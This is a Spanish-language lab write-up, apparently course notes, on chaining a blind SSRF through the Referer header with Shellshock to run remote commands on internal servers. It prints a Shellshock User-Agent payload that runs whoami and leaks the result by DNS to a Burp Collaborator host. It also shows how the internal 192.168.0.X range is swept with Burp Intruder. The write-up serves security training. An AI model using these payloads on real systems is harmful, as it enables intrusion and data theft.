 En esta clase resolvemos un laboratorio donde el SSRF se combina con la vulnerabilidad Shellshock para ejecutar comandos remotos en un sistema interno. Aprovechamos el hecho de que la aplicación realiza peticiones HTTP a la URL indicada en el header Referer, y que estas peticiones incluyen la cabecera User-Agent, la cual podemos manipular.

Empleamos Burp Collaborator para generar un payload que, al ser ejecutado, filtra el nombre del usuario del sistema mediante una consulta DNS. Este payload es inyectado en el User-Agent usando la sintaxis de Shellshock, y el ataque se lanza desde Burp Intruder variando la IP interna objetivo (192.168.0.X) en el Referer.

Al finalizar, revisamos las interacciones en el Collaborator y recuperamos el nombre del usuario directamente desde el subdominio que llega en la consulta DNS. Esta clase demuestra cómo una SSRF ciega puede convertirse en ejecución remota de comandos en sistemas mal configurados.

-----

1. Estando dentro del producto, en la peticion mandamos una peticion al collaborator de burp y vemos que es posible comunicarnos con el collaborator
2. Ahora, en la misma peticion, nos aprovechamos el user-agent para hacer el shell shock attack, para ello hacemos lo siguiente

    User-Agent: () { :; }; /usr/bin/nslookup $(whoami).collaborator.oastify.com

Esto nos permite hacer una peticion DNS al collaborator pero le añadimos un comando, en este caso "whoami"

3. Entonces podemos hacer un shell shock hacia todos los posible servidores aprovechandonos del "Referer"

    Referer: http://192.168.0.X:8080




